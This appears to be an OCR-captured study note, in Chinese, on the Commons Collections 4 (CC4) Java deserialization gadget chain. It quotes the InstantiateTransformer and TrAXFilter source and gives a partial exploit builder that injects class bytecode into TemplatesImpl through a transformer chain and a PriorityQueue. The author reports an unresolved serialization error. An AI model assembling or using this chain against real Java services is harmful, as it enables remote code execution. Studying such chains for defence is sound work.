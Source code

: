## InstantiateTransformer
```java
public Object transform(Object input) {
        try {
            if (!(input instanceof Class)) {
                throw new FunctorException("InstantiateTransformer: Input object was not an instanceof Class, it was a " + (input == null ? "null object" : input.getClass().getName()));
            } else {
                Constructor con = ((Class)input).getConstructor(this.iParamTypes);
                return con.newInstance(this.iArgs);
            }
```
获取构造函数并创建实例
```java
public TrAXFilter(Templates templates)  throws
        TransformerConfigurationException
    {
        _templates = templates;
        _transformer = (TransformerImpl) templates.newTransformer();
        _transformerHandler = new TransformerHandlerImpl(_transformer);
        _useServicesMechanism = _transformer.useServicesMechnism();
    }
```
调用newTransformer方法。
# cc4
```java
ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
    public static void  main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        Class tc = templates.getClass();
        Field namefiled = tc.getDeclaredField("_name");
        namefiled.setAccessible(true);
        namefiled.set(templates,"114514");
        Field bycodesfiled = tc.getDeclaredField("_bytecodes");
        bycodesfiled.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D://tmp/classes/Test.class"));

        byte[][] codes = {code};
        bycodesfiled.set(templates,codes);
        Field tfactoryfield = tc.getDeclaredField("_tfactory");
        tfactoryfield.setAccessible(true);
        tfactoryfield.set(templates,new TransformerFactoryImpl());
        //templates.newTransformer();
        InstantiateTransformer instantiateTransformer =  new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates});
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),instantiateTransformer

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
```
不知道为啥，报不可序列化错，Priorityqueue可以序列化的
